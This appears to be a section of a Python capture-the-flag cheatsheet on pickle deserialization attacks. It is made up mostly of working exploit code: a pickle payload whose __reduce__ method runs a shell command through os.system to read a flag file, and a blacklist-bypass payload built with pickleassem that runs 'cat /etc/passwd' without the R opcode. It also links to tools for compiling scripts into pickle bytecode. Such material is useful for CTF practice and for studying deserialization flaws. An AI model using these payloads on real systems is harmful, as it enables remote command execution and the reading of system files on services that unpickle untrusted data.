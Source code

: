 # Pickle

### The simplest payload
```py
import pickle
import base64


class f:
    def __reduce__(self):
        import os
        return (os.system,("sleep 5 && cat /flag",))

print(f"Payload: {base64.b64encode(pickle.dumps(f()))}")
```

## Blacklist bypasses

### No R opcode

```py
# https://github.com/gousaiyang/pickleassem

import pickle
import pickletools
import base64 

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
print(base64.b64encode(payload))

```

## Convert python scripts into pickle bytecode
https://github.com/splitline/Pickora



[More...](https://github.com/salvatore-abello/python-ctf-cheatsheet/tree/main/rev#pickle)

